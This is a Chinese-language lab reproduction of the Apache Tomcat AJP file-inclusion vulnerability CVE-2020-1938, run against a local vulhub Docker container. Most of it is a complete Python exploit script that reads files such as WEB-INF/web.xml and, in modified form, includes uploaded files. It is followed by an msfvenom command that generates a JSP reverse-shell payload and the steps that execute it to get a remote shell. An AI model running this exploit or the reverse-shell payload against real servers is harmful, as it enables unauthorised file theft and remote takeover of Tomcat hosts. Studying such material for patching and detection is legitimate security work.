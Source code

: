 
# [](#cve-2020-1938-apache-tomcat-ajp-%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2020-1938 Apache Tomcat AJP 文件包含漏洞复现

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)漏洞复现

### [](#%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)环境搭建

docker-compose.yml

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```yaml<br>version: '2'<br>services:<br> tomcat:<br>   image: vulhub/tomcat:9.0.30<br>   ports:<br>    - "8080:8080"<br>    - "8009:8009"<br>``` |

启动镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker-compose up -d<br>``` |

### [](#poc)POC

来源：[https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC](https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC)

原作者的 poc 只能读文件，将原作者 poc 的 `self.req_uri = req_uri` 改为 `self.req_uri = req_uri + ".jsp"` 即可文件包含，从而反弹 shell。

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>215<br>216<br>217<br>218<br>219<br>220<br>221<br>222<br>223<br>224<br>225<br>226<br>227<br>228<br>229<br>230<br>231<br>232<br>233<br>234<br>235<br>236<br>237<br>238<br>239<br>240<br>241<br>242<br>243<br>244<br>245<br>246<br>247<br>248<br>249<br>250<br>251<br>252<br>253<br>254<br>255<br>256<br>257<br>258<br>259<br>260<br>261<br>262<br>263<br>264<br>265<br>266<br>267<br>268<br>269<br>270<br>271<br>272<br>273<br>274<br>275<br>276<br>277<br>278<br>279<br>280<br>281<br>282<br>283<br>284<br>285<br>286<br>287<br>288<br>289<br>290<br>291<br>292<br>293<br>294<br>295<br>296<br>297<br>298<br>299<br>300<br>301<br>302<br>303<br>``` | ```python<br>#!/usr/bin/env python<br>import struct<br><br># Some references:<br># https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html<br>def pack_string(s):<br>	if s is None:<br>		return struct.pack(">h", -1)<br>	l = len(s)<br>	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)<br>def unpack(stream, fmt):<br>	size = struct.calcsize(fmt)<br>	buf = stream.read(size)<br>	return struct.unpack(fmt, buf)<br>def unpack_string(stream):<br>	size, = unpack(stream, ">h")<br>	if size == -1: # null string<br>		return None<br>	res, = unpack(stream, "%ds" % size)<br>	stream.read(1) # \0<br>	return res<br>class NotFoundException(Exception):<br>	pass<br>class AjpBodyRequest(object):<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	MAX_REQUEST_LENGTH = 8186<br>	def __init__(self, data_stream, data_len, data_direction=None):<br>		self.data_stream = data_stream<br>		self.data_len = data_len<br>		self.data_direction = data_direction<br>	def serialize(self):<br>		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)<br>		if len(data) == 0:<br>			return struct.pack(">bbH", 0x12, 0x34, 0x00)<br>		else:<br>			res = struct.pack(">H", len(data))<br>			res += data<br>		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbH", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbH", 0x41, 0x42, len(res))<br>		return header + res<br>	def send_and_receive(self, socket, stream):<br>		while True:<br>			data = self.serialize()<br>			socket.send(data)<br>			r = AjpResponse.receive(stream)<br>			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:<br>				r = AjpResponse.receive(stream)<br><br>			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:<br>				break<br>class AjpForwardRequest(object):<br>	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)<br>	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	COMMON_HEADERS = ["SC_REQ_ACCEPT",<br>		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",<br>		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",<br>		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"<br>	]<br>	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]<br>	def __init__(self, data_direction=None):<br>		self.prefix_code = 0x02<br>		self.method = None<br>		self.protocol = None<br>		self.req_uri = None<br>		self.remote_addr = None<br>		self.remote_host = None<br>		self.server_name = None<br>		self.server_port = None<br>		self.is_ssl = None<br>		self.num_headers = None<br>		self.request_headers = None<br>		self.attributes = None<br>		self.data_direction = data_direction<br>	def pack_headers(self):<br>		self.num_headers = len(self.request_headers)<br>		res = ""<br>		res = struct.pack(">h", self.num_headers)<br>		for h_name in self.request_headers:<br>			if h_name.startswith("SC_REQ"):<br>				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1<br>				res += struct.pack("BB", 0xA0, code)<br>			else:<br>				res += pack_string(h_name)<br><br>			res += pack_string(self.request_headers[h_name])<br>		return res<br><br>	def pack_attributes(self):<br>		res = b""<br>		for attr in self.attributes:<br>			a_name = attr['name']<br>			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1<br>			res += struct.pack("b", code)<br>			if a_name == "req_attribute":<br>				aa_name, a_value = attr['value']<br>				res += pack_string(aa_name)<br>				res += pack_string(a_value)<br>			else:<br>				res += pack_string(attr['value'])<br>		res += struct.pack("B", 0xFF)<br>		return res<br>	def serialize(self):<br>		res = ""<br>		res = struct.pack("bb", self.prefix_code, self.method)<br>		res += pack_string(self.protocol)<br>		res += pack_string(self.req_uri)<br>		res += pack_string(self.remote_addr)<br>		res += pack_string(self.remote_host)<br>		res += pack_string(self.server_name)<br>		res += struct.pack(">h", self.server_port)<br>		res += struct.pack("?", self.is_ssl)<br>		res += self.pack_headers()<br>		res += self.pack_attributes()<br>		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbh", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbh", 0x41, 0x42, len(res))<br>		return header + res<br>	def parse(self, raw_packet):<br>		stream = StringIO(raw_packet)<br>		self.magic1, self.magic2, data_len = unpack(stream, "bbH")<br>		self.prefix_code, self.method = unpack(stream, "bb")<br>		self.protocol = unpack_string(stream)<br>		self.req_uri = unpack_string(stream)<br>		self.remote_addr = unpack_string(stream)<br>		self.remote_host = unpack_string(stream)<br>		self.server_name = unpack_string(stream)<br>		self.server_port = unpack(stream, ">h")<br>		self.is_ssl = unpack(stream, "?")<br>		self.num_headers, = unpack(stream, ">H")<br>		self.request_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code > 0xA000:<br>				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]<br>			else:<br>				h_name = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>			h_value = unpack_string(stream)<br>			self.request_headers[h_name] = h_value<br>	def send_and_receive(self, socket, stream, save_cookies=False):<br>		res = []<br>		i = socket.sendall(self.serialize())<br>		if self.method == AjpForwardRequest.POST:<br>			return res<br><br>		r = AjpResponse.receive(stream)<br>		assert r.prefix_code == AjpResponse.SEND_HEADERS<br>		res.append(r)<br>		if save_cookies and 'Set-Cookie' in r.response_headers:<br>			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']<br><br>		# read body chunks and end response packets<br>		while True:<br>			r = AjpResponse.receive(stream)<br>			res.append(r)<br>			if r.prefix_code == AjpResponse.END_RESPONSE:<br>				break<br>			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>				continue<br>			else:<br>				raise NotImplementedError<br>				break<br><br>		return res<br><br>class AjpResponse(object):<br>	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)<br>	COMMON_SEND_HEADERS = [<br>			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",<br>			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"<br>			]<br>	def parse(self, stream):<br>		# read headers<br>		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")<br><br>		if self.prefix_code == AjpResponse.SEND_HEADERS:<br>			self.parse_send_headers(stream)<br>		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>			self.parse_send_body_chunk(stream)<br>		elif self.prefix_code == AjpResponse.END_RESPONSE:<br>			self.parse_end_response(stream)<br>		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:<br>			self.parse_get_body_chunk(stream)<br>		else:<br>			raise NotImplementedError<br><br>	def parse_send_headers(self, stream):<br>		self.http_status_code, = unpack(stream, ">H")<br>		self.http_status_msg = unpack_string(stream)<br>		self.num_headers, = unpack(stream, ">H")<br>		self.response_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code <= 0xA000: # custom header<br>				h_name, = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>				h_value = unpack_string(stream)<br>			else:<br>				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]<br>				h_value = unpack_string(stream)<br>			self.response_headers[h_name] = h_value<br><br>	def parse_send_body_chunk(self, stream):<br>		self.data_length, = unpack(stream, ">H")<br>		self.data = stream.read(self.data_length+1)<br><br>	def parse_end_response(self, stream):<br>		self.reuse, = unpack(stream, "b")<br><br>	def parse_get_body_chunk(self, stream):<br>		rlen, = unpack(stream, ">H")<br>		return rlen<br><br>	@staticmethod<br>	def receive(stream):<br>		r = AjpResponse()<br>		r.parse(stream)<br>		return r<br><br>import socket<br><br>def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):<br>	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)<br>	fr.method = method<br>	fr.protocol = "HTTP/1.1"<br>	fr.req_uri = req_uri<br>	fr.remote_addr = target_host<br>	fr.remote_host = None<br>	fr.server_name = target_host<br>	fr.server_port = 80<br>	fr.request_headers = {<br>		'SC_REQ_ACCEPT': 'text/html',<br>		'SC_REQ_CONNECTION': 'keep-alive',<br>		'SC_REQ_CONTENT_LENGTH': '0',<br>		'SC_REQ_HOST': target_host,<br>		'SC_REQ_USER_AGENT': 'Mozilla',<br>		'Accept-Encoding': 'gzip, deflate, sdch',<br>		'Accept-Language': 'en-US,en;q=0.5',<br>		'Upgrade-Insecure-Requests': '1',<br>		'Cache-Control': 'max-age=0'<br>	}<br>	fr.is_ssl = False<br>	fr.attributes = []<br>	return fr<br><br>class Tomcat(object):<br>	def __init__(self, target_host, target_port):<br>		self.target_host = target_host<br>		self.target_port = target_port<br><br>		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)<br>		self.socket.connect((target_host, target_port))<br>		self.stream = self.socket.makefile("rb", bufsize=0)<br><br>	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):<br>    # 文件读取<br>		# self.req_uri = req_uri <br>    # 文件包含<br>		self.req_uri = req_uri + ".jsp"<br>		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))<br>		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))<br>		if user is not None and password is not None:<br>			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')<br>		for h in headers:<br>			self.forward_request.request_headers[h] = headers[h]<br>		for a in attributes:<br>			self.forward_request.attributes.append(a)<br>		responses = self.forward_request.send_and_receive(self.socket, self.stream)<br>		if len(responses) == 0:<br>			return None, None<br>		snd_hdrs_res = responses[0]<br>		data_res = responses[1:-1]<br>		if len(data_res) == 0:<br>			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)<br>		return snd_hdrs_res, data_res<br><br>'''<br>javax.servlet.include.request_uri<br>javax.servlet.include.path_info<br>javax.servlet.include.servlet_path<br>'''<br><br>import argparse<br>parser = argparse.ArgumentParser()<br>parser.add_argument("target", type=str, help="Hostname or IP to attack")<br>parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")<br>parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")<br>args = parser.parse_args()<br>t = Tomcat(args.target, args.port)<br>_,data = t.perform_request('/asdf',attributes=[<br>    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},<br>    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},<br>    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},<br>    ])<br>print('----------------------------')<br>print("".join([d.data for d in data]))<br>``` |

执行 poc

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```python<br>python2 poc.py 127.0.0.1 -p 8009 -f "WEB-INF/web.xml"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123454.png-water_print](assets/1699409606-a092193022d6a4c78cc0358d3acecb93 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123454.png-water_print")

### [](#%E5%8F%8D%E5%BC%B9-shell)反弹 shell

#### [](#msfvenom-%E7%94%9F%E6%88%90-webshell)msfvenom 生成 webshell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 > shell.txt<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124816.png-water_print](assets/1699409606-75ddf2fcde863e0dbc74b75585def444.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124816.png-water_print")

#### [](#%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6)上传文件

由于该漏洞要配合 `文件上传` ，再进行文件包含，进而执行命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br># 查看容器 ID<br>docker ps -a<br>docker cp shell.txt 容器ID:/usr/local/tomcat/webapps/ROOT/shell.txt<br>``` |

查看文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123848.png-water_print](assets/1699409606-a40c1996f8799c47ac407acabc7646ff.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123848.png-water_print")

#### [](#%E5%90%AF%E5%8A%A8-msf-%E7%9B%91%E5%90%AC)启动 msf 监听

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124024.png-water_print](assets/1699409606-1bc7c1b10d3ecab0743d50d14ec59849.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124024.png-water_print")

#### [](#%E6%89%A7%E8%A1%8C%E4%BF%AE%E6%94%B9%E5%90%8E%E7%9A%84-exp)执行`修改后`的 exp：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python2 poc.py 127.0.0.1 -p 8009 -f "/shell.txt"<br>``` |

`注意`：本人在测试时，使用一般的传参数的 webshell 时无法正确解析，可以进一步修改脚本解决。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124418.png-water_print](assets/1699409606-6c0bf99807ebbfe72a9dcbf858072a64.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124418.png-water_print")

成功弹回 shell

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124847.png-water_print](assets/1699409606-72e2c704ebfa718eab21a0e65bbad5bd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124847.png-water_print")
